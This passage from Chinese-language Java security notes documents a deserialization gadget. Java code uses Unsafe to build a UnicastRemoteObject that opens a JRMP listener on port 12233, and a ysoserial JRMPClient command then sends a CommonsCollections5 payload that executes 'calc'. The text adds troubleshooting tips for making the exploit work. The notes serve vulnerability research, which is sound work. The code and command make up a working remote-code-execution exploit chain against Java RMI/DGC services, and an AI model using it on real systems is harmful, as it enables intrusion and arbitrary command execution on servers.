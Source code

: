 ```java
public static void main(String[] args) throws Exception {
    Class<?> clazz = Class.forName("sun.misc.Unsafe");
    Field unsafeField = clazz.getDeclaredField("theUnsafe");
    unsafeField.setAccessible(true);
    Unsafe unsafe = (Unsafe) unsafeField.get(null);
    Class<?> uroClazz = Class.forName("java.rmi.server.UnicastRemoteObject");
    Object uro = unsafe.allocateInstance(uroClazz);
    setFiled(uro, "port", 12233);
    setFiled(uro, "ref", new UnicastServerRef(12233));
    ser(uro);
}

public static void setFiled(Object o, String name, Object value) throws Exception {
    Class<?> superClazz = o.getClass();
    Field f = null;
    while (true) {
        try {
            f = superClazz.getDeclaredField(name);
            break;
        } catch (NoSuchFieldException e) {
            superClazz = superClazz.getSuperclass();
        }
    }
    f.setAccessible(true);
    f.set(o, value);
}

public static void ser(Object o) throws Exception {
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(o);

    Object oo = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray())).readObject();
    Thread.sleep(100000);
}
```

可以用`ysoserial.exploit.JRMPClient`去打，其原理是与DGC通信发送恶意payload让服务端进行反序列化

`java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 12233 CommonsCollections5 "calc"`

注意上面用`Object oo`接收了反序列化的结果，若不加这个打不通，猜测是因为Stub没被引用导致被垃圾回收了，监听的端口自然断开了，`ysoserial.exploit.JRMPClient`连不上去。

## UnicastRef

`UnicastRef`实现了`Externalizable`接口，反序列化时会调用`readExternal`

![image-20240224122757788](./../.gitbook/assets/image-20240224122757788.png)
